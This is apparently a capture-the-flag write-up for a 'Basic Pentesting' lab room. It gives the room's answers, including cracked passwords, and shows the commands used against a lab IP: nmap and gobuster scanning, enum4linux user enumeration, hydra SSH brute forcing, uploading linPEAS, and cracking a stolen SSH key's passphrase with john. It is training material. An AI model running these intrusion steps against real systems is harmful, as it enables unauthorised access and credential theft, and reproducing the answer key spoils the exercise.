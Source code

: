```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [CTF, thm, easy, nmap]
---
```

# Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

## Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
## MyWalk:
Beginning with an nmap scan, and save the results on nmap/initial for future reference:
```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
Now I'll enumerate any directories available:
```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>
http://10.10.40.46/development give us 2 files referencing development messages between two users.
Lets use enum4linux:
```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```
Users 'kay' and 'jan' found.
<span style="color:green;">Q2 & Q5 done</span>
Now I try to get the 'jan' password using brute force, and get answer to Q3:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4
```
jan:armando <span style="color:green;">Q3 done</span>
Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:
```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:
```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:
```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):
```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:
```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```
Now run john with the key against the rockyou.txt:
```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46

```

Entering the paraphrase password 'beeswax' and success!

Now is possible to read the pass.bak file and <span style="color:green;">Q6 done</span>


 

---

#### Tools:

- nmap

- gobuster

- enum4linux

- hydra

- linPEAS

- johntheripper